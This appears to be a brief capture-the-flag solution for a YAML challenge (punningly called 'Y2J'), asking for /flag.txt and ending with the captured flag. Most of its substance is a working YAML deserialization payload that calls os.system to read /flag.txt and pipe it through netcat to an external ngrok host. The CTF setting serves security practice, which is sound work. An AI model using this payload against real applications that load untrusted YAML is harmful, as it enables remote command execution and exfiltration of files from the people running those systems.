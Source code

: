 Everyone was so worried about Y2K, but apparently it was a typo all along!!

The real world-ending fears were from Y2J!

Find the flag.txt file in the root of the filesystem.



!!python/object/apply:os.system
args: ["cat /flag.txt |nc 2.tcp.ngrok.io 11855"]


flag{b20870a1955ac22377045e3b2dcb832a}